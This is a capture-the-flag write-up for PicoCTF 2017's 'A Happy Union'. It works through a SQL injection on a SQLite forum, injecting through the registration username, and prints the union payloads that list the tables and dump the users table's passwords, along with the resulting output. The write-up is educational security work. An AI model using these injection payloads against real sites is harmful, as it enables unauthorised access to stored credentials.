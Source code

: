 ```yaml
---
layout:     post
title:      "PicoCTF - A Happy Union"
subtitle:   "Write-Ups"
date:       2017-04-16 0:00:00
author:     "W3ndige"
permalink: /:title/
category: PicoCTF 2017
---
```

<h1>A Happy Union - 110 PTS</h1>

<p>I really need access to website, but I forgot my password and there is no reset. Can you help? I like lite sql :)</p>

{% highlight html %}
w3ndige@W3ndige ~> curl http://shell2017.picoctf.com:41558/
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Top Notch Forum</title>
    <link href="/static/css/bootstrap.min.css" rel="stylesheet">
    <link href="/static/css/style.css" rel="stylesheet">  
  </head>
    <body>
        <div class="container">
          <div class="row">
            <div class="text-center">
                <h1> Welcome to the Super Poster Forum! </h1>
            </div>
        </div>
        <div class="row">
            <br />
            <br />
            <br />
            <br />
        </div>
        <div class="row">
            <div class="col-md-12 text-center">
                <a href="/login" class="btn btn-primary btn-md" role="button">Login</a>
                <a href="/register" class="btn btn-primary btn-md" role="button">Register</a>
            </div>
        </div>
      </div>
        <script src="/static/js/bootstrap.min.js"></script>
        <script src="/static/js/jquery.min.js"></script>
        <script type="text/javascript" src="/static/js/client.js"></script>

    </body>
</html>⏎         
{% endhighlight %}

<p>A happy union? It has to do something with <b>union sql injection</b>. Let's firstly check, how bad can we go when registering a new user. </p>

{% highlight html %}
username: ' OR 1 = 1
password: asd
{% endhighlight %}

<p>Now, after logging in, we can clearly see the SQL query which is used to take out the data from the database. And yeah, our input isn't sanitized at all, so we're clear to create <b>UNION</b> injection. </p>

{% highlight sql %}
select id, user, post from posts where user = '' OR 1 = 1';
{% endhighlight %}

<p>Our first step would be creating a query that will tell us names of the tables in the database. Since we know it's <b>sqlite</b> it won't be that hard. </p>

{% highlight sql %}
' union SELECT null, null, name FROM sqlite_master;--
{% endhighlight %}

<p>We have to use 2 <b>null</b> columns, since the base query is taking out content of 3 columns, and so we have to in the union query. Dashes in the end will comment out everything afer them, just in case. </p>

{% highlight html %}
<div class="row">
     <div class="text-center">
         <h1> Welcome &#39; union SELECT null, null, name FROM sqlite_master;-- to the Super Poster Forum! </h1>
     </div>
 </div>

 <div class="row">
     <div class="text-center">
         <h3> The current posts are:</h3>
     </div>
 </div>
 <div class="row">
     <table class="table">
         <thead>
         <tr>
             <th>Post ID</th>
             <th>User</th>
             <th>Value</th>
         </tr>
         </thead>
         </tbody>
                 <tr><td>None </td><td> None</td> <td> posts</td></tr>

                 <tr><td>None </td><td> None</td> <td> sqlite_sequence</td></tr>

                 <tr><td>None </td><td> None</td> <td> users</td></tr>
         </tbody>
     </table>
 </div>
{% endhighlight %}

<p>Great, we have <b>users</b> table, from which we can now try to get the flag. Here we go with the last query. </p>

{% highlight sql %}
' union SELECT user, pass, null FROM users;--
{% endhighlight %}

<p>User, pass column names? Let's check that out. </p>

{% highlight html %}
<div class="row">
    <div class="text-center">
        <h1> Welcome &#39; union SELECT user, pass, null FROM users;-- to the Super Poster Forum! </h1>
    </div>
</div>
<div class="row">
    <div class="text-center">
        <h3> The current posts are:</h3>
    </div>
</div>
<div class="row">
    <table class="table">
        <thead>
        <tr>
            <th>Post ID</th>
            <th>User</th>
            <th>Value</th>
        </tr>
        </thead>
        </tbody>
                <tr><td>&#39; union SELECT user, pass, null FROM users;-- </td><td> asd</td> <td> None</td></tr>

                <tr><td>admin </td><td> flag{union?_why_not_onion_b6e6a3cd8e3f1fe5f6109d1618bddbd1}</td> <td> None</td></tr>
        </tbody>
    </table>
</div>
{% endhighlight %}

<p>Great SQL Injection challenge! </p>
